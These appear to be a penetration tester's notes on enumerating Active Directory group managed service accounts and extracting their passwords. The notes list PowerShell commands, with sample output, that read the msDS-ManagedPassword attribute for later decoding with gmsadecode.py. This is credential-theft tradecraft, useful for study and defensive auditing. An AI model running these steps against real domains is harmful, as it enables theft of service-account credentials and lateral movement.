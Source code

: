 Group Managed Service Accounts (gMSA’s) can be used to *run Windows services over multiple servers within the Windows domain*.
https://aadinternals.com/post/gmsa/

# Detection/Enumeration
## Method 1: Bloodhound
![[Pasted image 20240528205214.png]]

## Method 2
```powershell
# Get gmsaADFS account:
Get-ADServiceAccount -Identity gmsaADFS -Properties "msDS-ManagedPassword"

DistinguishedName    : CN=gmsaADFS,CN=Managed Service Accounts,DC=aadinternals,DC=com
Enabled              : True
Name                 : gmsaADFS
ObjectClass          : msDS-GroupManagedServiceAccount
ObjectGUID           : b3a4f131-bb4f-4bf4-9e54-3d54b285620b
SamAccountName       : gmsaADFS$
SID                  : S-1-5-21-2918793985-2280761178-2512057791-2103
UserPrincipalName    : 


# Get principals allowed to get gmsaADFS account password:
Get-ADServiceAccount -Identity gmsaADFS -Properties "PrincipalsAllowedToRetrieveManagedPassword" | Select PrincipalsAllowedToRetrieveManagedPassword

PrincipalsAllowedToRetrieveManagedPassword   
------------------------------------------   
{CN=ADFS,CN=Computers,DC=aadinternals,DC=com}


# Get AD object for the ADFS principal
Get-ADObject -Identity "CN=ADFS,CN=Computers,DC=aadinternals,DC=com"

DistinguishedName                           Name ObjectClass ObjectGUID        
-----------------                           ---- ----------- ----------        
CN=ADFS,CN=Computers,DC=aadinternals,DC=com ADFS computer    bb5a6e8a-2956-4...
```

---
# Hunt Password
## Method 1
Take the **current value** always!
https://www.thehacker.recipes/ad/movement/dacl/readgmsapassword

## Method 2
```powershell
# Test
Get-ADServiceAccount -Identity 'svc_apache$' -Properties "msDS-ManagedPassword"

# Get all the values (Replace \n with ,) & Decode with gmsadecode.py
(Get-ADServiceAccount -Identity 'svc_apache$' -Properties 'msDS-ManagedPassword').'msDS-ManagedPassword'
```